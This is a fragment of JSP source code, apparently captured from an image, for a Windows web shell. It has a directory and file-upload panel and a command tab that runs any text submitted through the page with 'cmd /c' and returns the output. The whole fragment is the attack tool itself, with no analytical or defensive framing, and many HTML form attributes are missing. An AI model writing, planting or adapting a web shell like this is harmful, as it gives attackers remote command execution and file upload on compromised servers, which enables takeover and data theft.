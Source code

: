 ```
          </td>
        </tr>

 <form >
 <tr><td colspan=2 bgcolor=#FBFFC6>
 <input type="hidden" >
 <input type="hidden" >
 <input type="hidden" >
 <input type="hidden" >
 <input type="hidden" >
 <input type="hidden" >
 <%
 if(!strDir.endsWith("\\"))
 strDir = strDir + "\\";
 %>
 <input type="text" >
 <input type="submit"  > 
 <input type="submit"  > 
 </form>
 <form >
 <input type="hidden" >
 <input type="hidden" >
 <input type="hidden" >
 <input type="hidden" >
 <input type="hidden" >
 <input type="hidden" >
 <input type="file" >
 <input type="submit" >
 </td></tr></form>
      </table>
</div>
<div id="menu2" class="tabcontent">

<%
String line="";
StringBuffer sbCmd=new StringBuffer("");

if(strCmd!=null) 
{
 try
 {
  //out.println(strCmd);
  Process p=Runtime.getRuntime().exec("cmd /c "+strCmd);
  BufferedReader br=new BufferedReader(new InputStreamReader(p.getInputStream()));
  while((line=br.readLine())!=null)
  {
   sbCmd.append(line+"\r\n");
  }
 }
 catch(Exception e)
 {
  System.out.println(e.toString());
 }
}
else
{
 strCmd = "set";
}

%>
<form >

<input type="text"  size=50>
```